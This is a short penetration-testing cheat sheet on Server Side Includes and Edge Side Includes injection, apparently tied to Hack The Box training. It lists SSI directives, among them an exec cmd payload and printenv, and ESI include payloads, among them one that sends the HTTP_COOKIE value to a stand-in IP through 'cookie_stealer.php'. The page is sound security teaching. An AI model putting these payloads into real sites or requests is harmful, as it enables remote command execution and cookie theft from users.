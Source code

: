 # XXX Side Includes (ESI/SSI)

<div class="row row-cols-lg-2"><div>

#### Server Side Includes (SSI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

[Server Side Includes](https://httpd.apache.org/docs/current/howto/ssi.html) are Apache directives in HTML files that are evaluated when the file is served.

The directives are usually served in `.shtml`, `.shtm`, or `.stm`. files.

```text!
<!--#echo var="DATE_LOCAL" -->
<!--#printenv -->

<!--#include virtual="/cgi-bin/counter.pl" -->
<!--#include virtual="/footer.html" -->

<!--#exec cmd="ls" -->

<!--#fsize file="index.php" -->
<!--#flastmod file="index.php" -->
```

⚠️ `include` can include non-html files, but no hidden files.
</div><div>

#### Edge Side Includes (ESI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Edge Side Includes (ESI) is an XML-based markup language. It is a set of instructions to efficiently cache web content. 

Developers can split an HTML page in multiple fragments. ESI directives within an HTML file instruct HTTP surrogates, such as CNDs or reverse proxies, as to how they should fetch the HTML fragments.

The following header in the response explicitly indicates the use of ESI:

```text!
Surrogate-Control: content="ESI/1.0"
```
```html!
<esi: include src=http://IP>
<esi: include src=http://IP/XSSPAYLOAD.html>
<esi: include src=http://IP/cookie_stealer.php?xxx=$(HTTP_COOKIE)>
<esi:include src="lfi.txt">
```

📚 Refer to the [gosecure](https://gosecure.ai/blog/2018/04/03/beyond-xss-edge-side-include-injection/) article.
</div></div>
